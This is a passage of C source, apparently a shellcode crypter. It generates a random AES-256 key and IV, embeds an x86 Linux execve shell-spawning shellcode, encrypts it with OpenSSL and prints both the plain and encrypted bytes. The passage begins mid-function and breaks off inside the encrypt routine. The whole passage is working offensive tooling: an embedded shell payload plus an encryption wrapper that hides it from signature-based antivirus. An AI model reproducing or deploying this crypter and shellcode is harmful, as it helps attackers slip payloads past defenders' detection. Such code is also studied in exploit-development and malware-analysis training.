 ~~~ c
  unsigned char key[32]; //256 bit key
  unsigned char iv[16]; //128 bitinitialization vector

  int key_len, iv_len;
  key_len = 32;
  iv_len = 16;

  random_string(key, key_len); //generate random AES 256 bit key
  random_string(iv, iv_len); //generate random AES 128 bit initialization vector

  printf("[+] AES 128 bit IV: %s\n", (iv));
  printf("[+] AES 256 bit Key: %s\n", (key));

  //plaintext shellcode
  unsigned char shellcode[] = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

  unsigned char encrypted[128]; //buffer for encrypted shellcode
  int shellcode_len, encrypted_len; //length of shellcode

  shellcode_len = strlen(shellcode);

  //initialize the library
  ERR_load_crypto_strings();
  OpenSSL_add_all_algorithms();
  OPENSSL_config(NULL);

  //encrypt the shellcode
  encrypted_len = encrypt(shellcode, shellcode_len, key, iv, encrypted);

  //null terminate the shellcode for printing
  shellcode[shellcode_len] = '\0';
  encrypted[encrypted_len] = '\0';

  //print shellcode in both forms
  printf("[+] Original Shellcode (%d bytes):\n", (shellcode_len));
  print_shellcode(shellcode);

  printf("[+] Encrypted Shellcode (%d bytes):\n", (encrypted_len));
  print_shellcode(encrypted);

  //clean up
  EVP_cleanup();
  ERR_free_strings();

  return 0;
}

//error handler
void handleErrors(void)
{
  ERR_print_errors_fp(stderr);
  abort();
}

//encryption function for AES 256 with a 128 bit initialization vector
int encrypt(unsigned char *shellcode, int shellcode_len, unsigned char *key, unsigned char *iv, unsigned char *encrypted)
{
  EVP_CIPHER_CTX *ciphertext; //openssl EVP ciphertext structure

  int len, encrypted_len;

~~~